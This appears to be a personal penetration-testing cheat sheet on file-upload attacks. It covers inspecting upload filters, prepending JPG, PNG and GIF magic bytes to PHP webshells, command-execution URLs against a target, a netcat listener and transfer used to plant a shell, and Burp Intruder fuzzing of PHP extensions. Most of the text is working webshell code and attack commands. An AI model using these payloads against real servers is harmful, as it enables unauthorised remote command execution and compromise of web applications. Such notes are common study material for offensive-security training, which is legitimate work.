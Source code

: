 #### formats
Windows: Try asp, aspx, hta, doc malicious file uploads.
Web: Try php

#### weevely
[[Weevely]]

#### filter bypass
Inspect for filters from web page:
Right click on "Chose File" button > Inspect

Look for some form of "accept=" property.
ALSO, look in main file, such as main.js

![[Pasted image 20220905133644.png]]

Look into `allowedMimeType` for file types.
In this example, we see we can upload xml files.

[[11._XML XXE#Quick file upload win]]

#### Magic bytes
Magic bytes are used to identify the type of the file, and are usually found at the beginning of it. Other files have the magic bytes at their offset, while some other files (such as plain text files) do not have magic bytes at all. The position of the magic bytes also varies on different filesystems. 

JPG:
Adding magic bytes for the JPG format to our PHP file might let us bypass this check.  We can refer to the list of magic bytes at https://en.wikipedia.org/wiki/List_of_file_signatures. 

Valid magic bytes for a JPG/JPEG file are:
1. `FF D8 FF DB`
2. `FF D8 FF E0 00 10 4A 46 49 46 00 01`
3. `FF D8 FF EE`
4. `FF D8 FF E1 ?? ?? 45 78 69 66 00 00`

![[Pasted image 20220922121011.png]]

```bash - kali
echo 'FFD8FFDB' | xxd -r -p > webshell.php.jpg 
```

```bash - kali
echo '<?=`$_GET[cmd]`?>' >> webshell.php.jpg
```

![[Pasted image 20220922121036.png]]

`http://$TARGET/uploads/webshell.php.jpg?cmd=whoami`

PNG:
The magic bytes for PNG are:
1. `89 50 4E 47 0D 0A 1A 0A`

```bash - kali
echo '89504E470D0A1A0A' | xxd -r -p > webshell.php.png
```

```bash - kali
echo '<?=`$_GET[cmd]`?>' >> webshell.php.png
```

`http://$TARGET/uploads/webshell.php.png?cmd=whoami`

#### GIF

Upload Shelly.php as a "GIF"

```
GIF8;
<?php echo system($_REQUEST['cmd']); ?>
```

#### File upload webshell

Set listener on port 4444 to output any connection to shelly.php.
```php
<?php echo exec('nc -lvnp 4444 > shelly.php 2>&1'); ?>.php
```

Use nc to connect and transfer shelly.php.
```bash - kali
nc -nv IP 4444 < shelly.php
```

Visit file upload to connect reverse shell.

### Bypassing extension limits.
1. Capture and upload in Burp. 
2. Send to Intruder.
3. Dictionary attack the extension (PHP example below).

```burpsuite - kali
php
php3
php4
php5
phtml
```

